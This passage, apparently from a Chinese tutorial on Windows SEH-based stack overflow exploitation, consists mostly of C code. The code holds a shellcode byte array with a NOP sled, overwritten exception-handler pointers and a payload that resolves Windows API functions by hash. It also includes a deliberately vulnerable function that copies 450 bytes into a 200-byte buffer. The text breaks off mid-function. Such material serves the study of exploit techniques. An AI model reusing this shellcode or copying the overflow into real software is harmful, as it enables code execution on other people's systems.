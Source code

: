 最后就可以跳转到shellcode执行了

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1pm7ddm6bj214b0o410o.jpg>)

返回到栈上shellcode以上的位置，然后往下走执行shellcode

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1pm8afv1dj212t0mrtfm.jpg>)

代码：

	#include "stdafx.h"
	#include "stdlib.h"
	#include <windows.h>
	char shellcode[]=
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x10\xff\x18\x00"
	"\x12\x10\x12\x11"
	"\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8b"
	"\x09\x8B"
	"\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
	"\xff\xff\xff\xff"
	"\xff\x72\xc4\x77"

	;
	DWORD MyException(void)
	{
		printf("There is an exception");
		getchar();
		return 1;
	}
	void test(char * input)
	{
		char str[200];
		memcpy(str,input,450);
			int zero=0;
		__try
		{
			zero=1/zero;
		}
		__except(MyException())
		{